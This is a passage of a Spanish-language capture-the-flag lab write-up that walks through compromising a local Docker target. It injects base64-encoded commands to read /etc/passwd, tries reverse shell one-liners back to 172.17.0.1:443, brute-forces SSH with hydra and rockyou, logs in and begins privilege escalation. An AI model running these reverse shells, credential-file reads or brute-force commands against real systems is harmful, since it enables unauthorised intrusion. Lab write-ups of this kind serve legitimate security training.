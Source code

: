 Codificamos el comando para enumerar a los usuarios  del sistema objetivo:
```bash
echo "cat /etc/passwd | grep 'sh'" | base64
Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAnc2gnCg==
```

El servidor nos responde:
```bash
HTTP/1.1 200 OK
Server: Werkzeug/3.0.3 Python/3.12.3
Date: Tue, 08 Jul 2025 20:35:43 GMT
Content-Type: text/plain
Content-Length: 174
Connection: close

root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
cachopin:x:1001:1001::/home/cachopin:/bin/bash
```
### Intrusion
Ahora ganaremos acceso al objetivo
```bash
nc -nlvp 443
```

Ahora usaremos esta web [ReversheShell](https://www.revshells.com/) para generarnos uns **reverShell** en base64 y asi ganar acceso
```bash
sh -i >& /dev/tcp/172.17.0.1/443 0>&1
c2ggLWkgPiYgL2Rldi90Y3AvMTcyLjE3LjAuMS80NDMgMD4mMQ==
```

Intentando ganar acceso con una **revershell** no tuvimos exito
```bash
# Reverse shell o acceso inicial
userInput=YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzQ0MyAwPiYx
```

Pero como tenemos un nombre de usuario procedemos a realizar fuerza bruta por **ssh**
```bash
hydra -l cachopin -P /usr/share/wordlists/rockyou.txt -f -t 4 ssh://172.17.0.2

[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: cachopin   password: simple
```

Ahora nos conectamos por **ssh**
```bash
ssh-keygen -R 172.17.0.2 && ssh cachopin@172.17.0.2 # ( simple )
```
---

## Escalada de Privilegios
###### Usuario `[ Cachopin ]`:
Tenemos un archivo **sh**
```bash
cat entrypoint.sh 

#!/bin/bash

# Inicia el servicio SSH como root
service ssh start

# Cambia al usuario cachopin para ejecutar la aplicación Flask
exec su - cachopin -c "/home/cachopin/venv/bin/python /home/cachopin/app/app.py"
```

